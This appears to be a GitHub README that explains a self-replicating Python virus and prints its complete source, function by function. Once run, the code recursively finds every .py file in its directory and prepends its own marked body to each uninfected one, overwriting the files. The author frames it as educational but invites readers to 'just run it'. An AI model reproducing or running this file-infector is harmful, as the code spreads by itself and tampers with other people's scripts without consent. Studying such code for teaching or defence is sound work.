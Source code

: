 # Self Replicating Virus

## ** Disclaimer **

The information and code provided here, are inteded to be used for educational and research purposes only. Do not use the information for illegal activities, any actions and or activities related to the material contained within this repository is solely your responsibility. The author will not be held responsibile in the event of any criminal charges against any individual misusing the information provided here.

## TABLE OF CONTENTS

1. [What is it and how to use it](#what-is-it-and-how-to-use-it)
2. [A deeper dive](#a-deeper-dive)

## What is it and how to use it

The file `self_replicating_virus.py` (from now on the `virus`) contains the python code that, once run, steps over the following:

- It scans every file, and recursively every folder, in the same directory of the `virus`, searching and storing every python script it finds that do not contain the virus.

- It prepends itself to each of these python scripts.

In order to use it... just run it! (but please, put it in an isolated folder with dummy python scrypts if you do not want to infect your python files)

```
py self_replicating_virus.py
```

## A deeper dive

How does it work, though?

First, by inspecting it, we see that the virus is enclosed by two comments:

```py
##### START VIRUS #####

          .
          .
          .

###### END VIRUS ######
```

Well, this is pretty self-explanatory: these comments delimit the start and the end of the virus. They are used by the virus itself to be aware of what it has to copy to other python scripts (clearly something less obvious than `START VIRUS` could be used if someone wanted to create a real virus).

But let's run through the code in order.

```py
import os
import cryptography
from cryptography.fernet import Fernet

filesToInfect = []
payload = []
```

Firstly there are the libraries that the script needs and then there are some global variables defined. Their names are pretty self-explanatory, the first array (list) is going to store the filepath of the python scripts that the virus is going to infect and the second array will store each line of the virus that are going to be injected in the target files.

<hr/>

```py
def get_files_from_directory(dir):
  for root, subdirs, files in os.walk(dir):
    for file in files:
      if file.endswith('.py'):
        filesToInfect.append(os.path.join(root, file))
```

This function, as the name suggests, will walk through each file and directory (recursively) starting from the directory passed to it (`dir`) and once it finds a file with the extension `.py`, it will append this to the array defined before.

<hr/>

```py
def search_files_to_infect():
  rootDir = os.getcwd()
  get_files_from_directory(rootDir)
```

Using `os.getcwd()` the script gets the directory in which it sits, and pass it to the function defined before to get all the python scripts.

<hr/>

```py
def already_infected(file):
  with open(file, 'r') as f:
    for line in f:
      if "##### START VIRUS #####\n" == line:
        return True
    return False
```

Since we do not want to flood the scripts with duplicates of the virus, we check whether the file passed to the function `already_infected` is indeed already infected, if so, it returns `True`, otherwise it returns `False` (pretty ovbious, I guess).

<hr/>

```py
def compute_payload():
  with open(os.path.join(os.getcwd(), __file__), 'r') as virus:
    actual_payload = False
    for line in virus:
      if actual_payload:
        payload.append(line)
        if line == "###### END VIRUS ######\n":
          break
      if "##### START VIRUS #####\n" == line:
        payload.append("##### START VIRUS #####\n")
        actual_payload = True
```

Now it's time to compute the payload, namely run through the file and store each line from `##### START VIRUS #####` to `###### END VIRUS ######` in the payload array. In general, in fact, this code can be part of other code (for an infected script) and we just want to propagate the virus, not the complete script.

<hr/>

```py
def inject_payload(file):
  old_code = []
  with open(file, 'r') as f:
    old_code = f.readlines()

  new_code = []
  new_code.extend(payload)
  new_code.extend(old_code)

  with open(file, 'w') as f:
    f.writelines(new_code)
```

Finally it's time to infect the file. The function above will take a file as a parameter and will inject the payload into it at the beggining of the script. How does it do that? it first store the old script's lines in an array `old_code`, then it creates a new array `new_array` by extending the `payload` with the `old_code`. At the end, it writes these lines in the file, overriding its previous content (which is just appended to the payload code).

<hr/>

```py
search_files_to_infect()
compute_payload()

for file in filesToInfect:
  if not already_infected(file):
    inject_payload(file)
```

Here the methods defined above are called. So firstly we search for files to infect, then we compute the payload and then recursively for every python script found, we inject the payload.

And this is it, quite simple, but funny to play around!
